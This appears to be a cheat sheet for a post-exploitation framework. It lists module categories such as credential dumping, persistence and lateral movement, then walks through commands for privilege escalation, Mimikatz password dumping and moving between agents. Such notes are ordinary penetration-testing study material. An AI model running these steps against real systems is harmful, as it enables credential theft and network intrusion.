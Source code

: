Module | Description
--- | ---
Enumeration | Modules for general recon and information gathering
Situation | Situational awareness modules (scanners, detailed recon etc.)
Active directory | Enumeration of Active Directory (groups, users, computers etc.)
Privesc or privilege | Privilege escalation modules and scanners for local vulnerabilities
Credentials | Dumping credentials, password hashes, impersonation, tokens, tickets etc.
Persistence | Maintaining access to the system (install a backdoor etc.)
Lateral | Lateral movement, invoking commands on remote systems
Code execution | Executing code on the system using various methods
Collection | Dumping browser data, packet capturing (sniffing), keylogging, screen capturing etc.
Management | Modules for managing the system and performing various useful tasks
Exploit | Modules for various known vulnerabilities (ZeroLogon, PrintNightmare, EternalBlue etc.)

```python
usemodule
# For example powerview on AD 
usemodule situational_awareness/network/powerview/get_user
info
execute
# powerup/allchecks from privesc 
usemodule powershell/privesc/powerup/allchecks
execute
# Enumerate without the hassle of getting the scripts and so on finding possible privesc so: 
usemodule privesc/*modulename*
info
set Listener <name>
execute
interact <agent>
# then once privesc-ed
usemodule credentials/** 
# Mimikatz for example:
usemodule credentials/mimikatz/logonpasswords
execute
# Mimikatz commands see
sekurlsa::logonpasswords
# Empires collect them!
creds # view all collected credentials
creds add <domain> <user> <password>
# Lateral movement time!
usemodule lateral_movement/*
info
set <all options required>
execute
agents # list all agents
interact # interat with agent
```


# Plugin

Plugins
